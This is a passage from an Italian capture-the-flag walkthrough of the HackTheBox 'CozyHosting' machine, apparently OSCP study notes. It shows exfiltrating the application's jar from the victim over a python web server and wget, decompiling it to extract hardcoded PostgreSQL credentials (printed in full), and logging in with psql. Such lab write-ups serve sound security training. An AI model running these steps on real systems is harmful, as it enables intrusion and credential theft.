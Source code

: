 nella home abbiamo l'utente `josh`  ma non abbiamo i permessi per entrare, dobbiamo aumentare i nostri privilegi
```shell-session
app@cozyhosting:/home$ cd josh/
bash: cd: josh/: Permission denied
```

nella directory `/app`  troviamo un il file .jar

```shell-session
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Tiriamo su un server python sulla macchina vittima 

```shell-session
app@cozyhosting:/app$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

e sulla nostra lo scarichiamo con `wget`

```shell-sesssion
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# wget http://10.10.11.230:8000/cloudhosting-0.0.1.jar
--2023-11-28 14:16:17--  http://10.10.11.230:8000/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar                                     100%[=======================================================================================================================================>]  57.47M  4.93MB/s    in 13s

2023-11-28 14:16:30 (4.51 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

e apriamolo con `jd-gui`
>[!nota] se non fosse installato utilizziamo apt install

```shell-session
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# jd-gui cloudhosting-0.0.1.jar
```

Dentro troviamo quelle che sono le credenziali di accesso database PostgreSQL utilizzando questi nome utente e password.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/cozy13.png)

Credenziali psql
postgres:Vg&nvzAQ7XxR

```shell session
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#

```
